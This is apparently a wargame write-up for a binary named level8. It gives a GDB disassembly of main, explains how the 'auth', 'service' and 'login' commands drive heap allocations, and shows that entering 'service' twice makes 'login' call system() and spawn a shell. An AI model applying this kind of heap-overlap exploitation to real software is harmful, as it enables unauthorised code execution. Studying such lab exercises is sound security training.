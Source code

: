 # Level8

First step - testing the program

	$ ./level8
	(nil), (nil)

	(nil), (nil)
	coucou
	(nil), (nil)
	c
	(nil), (nil)
	aaaa
	(nil), (nil)
	^C

	$ ./level8 coucou
	(nil), (nil)

	(nil), (nil)
	^C

Start in GDB

	(gdb-peda)$ pdisas main
	Dump of assembler code for function main:
	   0x08048564 <+0>:		push   ebp
	   0x08048565 <+1>:		mov    ebp,esp
	   0x08048567 <+3>:		push   edi
	   0x08048568 <+4>:		push   esi
	   0x08048569 <+5>:		and    esp,0xfffffff0
	   0x0804856c <+8>:		sub    esp,0xa0
	   0x08048572 <+14>:	jmp    0x8048575 <main+17>
	   0x08048574 <+16>:	nop
	   0x08048575 <+17>:	mov    ecx,DWORD PTR ds:0x8049ab0
	   0x0804857b <+23>:	mov    edx,DWORD PTR ds:0x8049aac
	   0x08048581 <+29>:	mov    eax,0x8048810
	   0x08048586 <+34>:	mov    DWORD PTR [esp+0x8],ecx
	   0x0804858a <+38>:	mov    DWORD PTR [esp+0x4],edx
	   0x0804858e <+42>:	mov    DWORD PTR [esp],eax
	   0x08048591 <+45>:	call   0x8048410 <printf@plt>
	   0x08048596 <+50>:	mov    eax,ds:0x8049a80
	   0x0804859b <+55>:	mov    DWORD PTR [esp+0x8],eax
	   0x0804859f <+59>:	mov    DWORD PTR [esp+0x4],0x80
	   0x080485a7 <+67>:	lea    eax,[esp+0x20]
	   0x080485ab <+71>:	mov    DWORD PTR [esp],eax
	   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
	   0x080485b3 <+79>:	test   eax,eax
	   0x080485b5 <+81>:	je     0x804872c <main+456>
	   0x080485bb <+87>:	lea    eax,[esp+0x20]
	   0x080485bf <+91>:	mov    edx,eax
	   0x080485c1 <+93>:	mov    eax,0x8048819
	   0x080485c6 <+98>:	mov    ecx,0x5
	   0x080485cb <+103>:	mov    esi,edx
	   0x080485cd <+105>:	mov    edi,eax
	   0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
	   0x080485d1 <+109>:	seta   dl
	   0x080485d4 <+112>:	setb   al
	   0x080485d7 <+115>:	mov    ecx,edx
	   0x080485d9 <+117>:	sub    cl,al
	   0x080485db <+119>:	mov    eax,ecx
	   0x080485dd <+121>:	movsx  eax,al
	   0x080485e0 <+124>:	test   eax,eax
	   0x080485e2 <+126>:	jne    0x8048642 <main+222>
	   0x080485e4 <+128>:	mov    DWORD PTR [esp],0x4
	   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
	   0x080485f0 <+140>:	mov    ds:0x8049aac,eax
	   0x080485f5 <+145>:	mov    eax,ds:0x8049aac
	   0x080485fa <+150>:	mov    DWORD PTR [eax],0x0
	   0x08048600 <+156>:	lea    eax,[esp+0x20]
	   0x08048604 <+160>:	add    eax,0x5
	   0x08048607 <+163>:	mov    DWORD PTR [esp+0x1c],0xffffffff
	   0x0804860f <+171>:	mov    edx,eax
	   0x08048611 <+173>:	mov    eax,0x0
	   0x08048616 <+178>:	mov    ecx,DWORD PTR [esp+0x1c]
	   0x0804861a <+182>:	mov    edi,edx
	   0x0804861c <+184>:	repnz scas al,BYTE PTR es:[edi]
	   0x0804861e <+186>:	mov    eax,ecx
	   0x08048620 <+188>:	not    eax
	   0x08048622 <+190>:	sub    eax,0x1
	   0x08048625 <+193>:	cmp    eax,0x1e
	   0x08048628 <+196>:	ja     0x8048642 <main+222>
	   0x0804862a <+198>:	lea    eax,[esp+0x20]
	   0x0804862e <+202>:	lea    edx,[eax+0x5]
	   0x08048631 <+205>:	mov    eax,ds:0x8049aac
	   0x08048636 <+210>:	mov    DWORD PTR [esp+0x4],edx
	   0x0804863a <+214>:	mov    DWORD PTR [esp],eax
	   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
	   0x08048642 <+222>:	lea    eax,[esp+0x20]
	   0x08048646 <+226>:	mov    edx,eax
	   0x08048648 <+228>:	mov    eax,0x804881f
	   0x0804864d <+233>:	mov    ecx,0x5
	   0x08048652 <+238>:	mov    esi,edx
	   0x08048654 <+240>:	mov    edi,eax
	   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
	   0x08048658 <+244>:	seta   dl
	   0x0804865b <+247>:	setb   al
	   0x0804865e <+250>:	mov    ecx,edx
	   0x08048660 <+252>:	sub    cl,al
	   0x08048662 <+254>:	mov    eax,ecx
	   0x08048664 <+256>:	movsx  eax,al
	   0x08048667 <+259>:	test   eax,eax
	   0x08048669 <+261>:	jne    0x8048678 <main+276>
	   0x0804866b <+263>:	mov    eax,ds:0x8049aac
	   0x08048670 <+268>:	mov    DWORD PTR [esp],eax
	   0x08048673 <+271>:	call   0x8048420 <free@plt>
	   0x08048678 <+276>:	lea    eax,[esp+0x20]
	   0x0804867c <+280>:	mov    edx,eax
	   0x0804867e <+282>:	mov    eax,0x8048825
	   0x08048683 <+287>:	mov    ecx,0x6
	   0x08048688 <+292>:	mov    esi,edx
	   0x0804868a <+294>:	mov    edi,eax
	   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
	   0x0804868e <+298>:	seta   dl
	   0x08048691 <+301>:	setb   al
	   0x08048694 <+304>:	mov    ecx,edx
	   0x08048696 <+306>:	sub    cl,al
	   0x08048698 <+308>:	mov    eax,ecx
	   0x0804869a <+310>:	movsx  eax,al
	   0x0804869d <+313>:	test   eax,eax
	   0x0804869f <+315>:	jne    0x80486b5 <main+337>
	   0x080486a1 <+317>:	lea    eax,[esp+0x20]
	   0x080486a5 <+321>:	add    eax,0x7
	   0x080486a8 <+324>:	mov    DWORD PTR [esp],eax
	   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
	   0x080486b0 <+332>:	mov    ds:0x8049ab0,eax
	   0x080486b5 <+337>:	lea    eax,[esp+0x20]
	   0x080486b9 <+341>:	mov    edx,eax
	   0x080486bb <+343>:	mov    eax,0x804882d
	   0x080486c0 <+348>:	mov    ecx,0x5
	   0x080486c5 <+353>:	mov    esi,edx
	   0x080486c7 <+355>:	mov    edi,eax
	   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
	   0x080486cb <+359>:	seta   dl
	   0x080486ce <+362>:	setb   al
	   0x080486d1 <+365>:	mov    ecx,edx
	   0x080486d3 <+367>:	sub    cl,al
	   0x080486d5 <+369>:	mov    eax,ecx
	   0x080486d7 <+371>:	movsx  eax,al
	   0x080486da <+374>:	test   eax,eax
	   0x080486dc <+376>:	jne    0x8048574 <main+16>
	   0x080486e2 <+382>:	mov    eax,ds:0x8049aac
	   0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
	   0x080486ea <+390>:	test   eax,eax
	   0x080486ec <+392>:	je     0x80486ff <main+411>
	   0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833
	   0x080486f5 <+401>:	call   0x8048480 <system@plt>
	   0x080486fa <+406>:	jmp    0x8048574 <main+16>
	   0x080486ff <+411>:	mov    eax,ds:0x8049aa0
	   0x08048704 <+416>:	mov    edx,eax
	   0x08048706 <+418>:	mov    eax,0x804883b
	   0x0804870b <+423>:	mov    DWORD PTR [esp+0xc],edx
	   0x0804870f <+427>:	mov    DWORD PTR [esp+0x8],0xa
	   0x08048717 <+435>:	mov    DWORD PTR [esp+0x4],0x1
	   0x0804871f <+443>:	mov    DWORD PTR [esp],eax
	   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
	   0x08048727 <+451>:	jmp    0x8048574 <main+16>
	   0x0804872c <+456>:	nop
	   0x0804872d <+457>:	mov    eax,0x0
	   0x08048732 <+462>:	lea    esp,[ebp-0x8]
	   0x08048735 <+465>:	pop    esi
	   0x08048736 <+466>:	pop    edi
	   0x08048737 <+467>:	pop    ebp
	   0x08048738 <+468>:	ret
	End of assembler dump.

The program is more complex than others, need to translate it in C before trying to understand

After (long long time) trying to translate in c, we can see interesting things in our pseudo c code

The program increase the size of 2 global variables (auth, service) with malloc, 10 by 10, when the input is "auth " or "service"

There is also a case when the input is "login", a check in the memory on auth+32, if the memory is not 0, the function "system" is called

So, we can understand what we need to do : init the auth variable, increase the service variable until the service variable overwrite auth+32

	$ ./level8
	(nil), (nil)
	auth
	0x804a008, (nil)
	service
	0x804a008, 0x804a018
	login
	Password:
	0x804a008, 0x804a018
	service
	0x804a008, 0x804a028
	login
	$

Good! 2 times needed
